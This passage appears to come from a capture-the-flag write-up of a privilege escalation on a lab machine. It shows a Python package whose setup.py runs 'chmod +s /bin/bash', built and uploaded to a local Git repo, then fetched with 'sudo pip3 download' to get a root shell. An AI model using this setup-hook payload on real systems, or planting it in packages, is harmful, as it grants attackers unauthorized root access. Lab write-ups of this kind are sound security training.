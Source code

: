 Download the git repo, and modify `RunCommand()` function from "setup.py" and put system command.

```py
import os

def RunCommand():
    print("Hello World!")
    os.system("chmod +s /bin/bash")
```

And build the package. If "build" module is not installed, first you'll need to install it using `pip install build`
```bash
python -m build
```

After Successfully built, it generate 2 file in `./dist` directory, `this_is_fine_wuzzi-0.0.1.tar.gz` and `this_is_fine_wuzzi-0.0.1-py3-none-any.whl`

Upload tar.gz archive in the john's Test repo.

![](screenshots/http-only4you.htb-13000-git-upload.png)

* Before uploading, Change "Test" repo Visibility setting and uncheck private repo option. 

```bash
sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
```

![](screenshots/rooted.png)

